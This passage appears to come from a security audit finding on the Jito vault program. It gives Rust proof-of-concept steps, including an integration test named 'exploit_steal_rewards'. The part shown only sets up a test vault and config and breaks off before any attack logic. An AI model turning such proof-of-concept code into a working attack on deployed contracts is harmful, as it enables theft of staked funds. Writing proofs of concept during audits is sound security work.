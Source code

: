 ```rust
        }

        self.close_vault_update_state_tracker(
            vault_pubkey,
            &vault_update_state_tracker,
            slot / config.epoch_length(),
        )
        .await?;

        Ok(())
    }

```

2. Add the following code to a test file under integration\_tests/tests/vault/

```rust
#[cfg(test)]
mod tests {
    //use jito_vault_sdk::error::VaultError;
    use solana_sdk::signature::{Keypair, Signer};
    use jito_vault_core::{config::Config, vault::BurnSummary, vault_staker_withdrawal_ticket::VaultStakerWithdrawalTicket};
   
    use crate::fixtures::fixture::{ConfiguredVault, TestBuilder};
    use spl_associated_token_account::get_associated_token_address;
 
    #[tokio::test]
    async fn exploit_steal_rewards() {
        let mut fixture = TestBuilder::new().await;

        let deposit_fee_bps = 0;
        let withdrawal_fee_bps = 0;
        let reward_fee_bps = 0;
        let num_operators = 1;
        let slasher_amounts = vec![];

        let (ConfiguredVault {
            mut vault_program_client,
            mut restaking_program_client,
            vault_root,
            operator_roots,
            ..
        }) = fixture
            .setup_vault_with_ncn_and_operators(
                deposit_fee_bps,
                withdrawal_fee_bps,
                reward_fee_bps,
                num_operators,
                &slasher_amounts,
                
            )
            .await
            .unwrap();
        
        //get config data
        let mut config = vault_program_client
            .get_config(&Config::find_program_address(&jito_vault_program::id()).0)
            .await
            .unwrap();
   
        //get vault    
        let mut vault = vault_program_client.get_vault(&vault_root.vault_pubkey).await.unwrap();
```